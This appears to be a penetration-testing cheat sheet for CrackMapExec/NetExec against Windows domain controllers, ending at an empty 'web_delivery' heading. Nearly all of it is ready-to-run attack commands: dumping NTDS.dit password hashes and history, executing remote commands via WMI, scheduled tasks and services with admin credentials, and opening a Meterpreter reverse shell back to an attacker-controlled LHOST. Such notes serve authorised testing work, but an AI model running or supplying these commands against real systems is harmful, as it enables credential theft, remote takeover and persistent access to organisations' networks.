 Dump the NTDS.dit from DC using methods from [secretsdump.py](http://secretsdump.py/)

- `crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds`

Dsync

- `nxc smb 10.10.10.10 -u 'name' -p 'pss' -k -M ntdsutil`

Uses the Volume Shadow copy Service

- `crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss`

Dump the NTDS.dit password history

- `crackmapexec smb 192.168.1.0 -u UserNAme -p 'PASSWORDHERE' --ntds-history`

# Command e**xecution**

---

There are 3 different command execution methods (in default order)

1. wmiexec --> WMI
2. atexec --> scheduled task
3. smbexec --> creating and running a service

Through cmd.exe (admin privileges required)

- `crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x 'whoami'`

Force the smbexec

- `crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' -x 'net user Administrator /domain' --exec-method smbexec`

Through PowerShell (admin privileges required)

- `crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X 'whoami'`

# Getting Metasploit shell

---

## `Met_Inject` module

```html
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST tun0
set exitonsession false
exploit -j
```

- `crackmapexec smb 10.10.10.10 -u 'Administrator' -p 'PASS' --local-auth -M met_inject -o LHOST=YOURIP LPORT=4444`

## `web_delivery` module
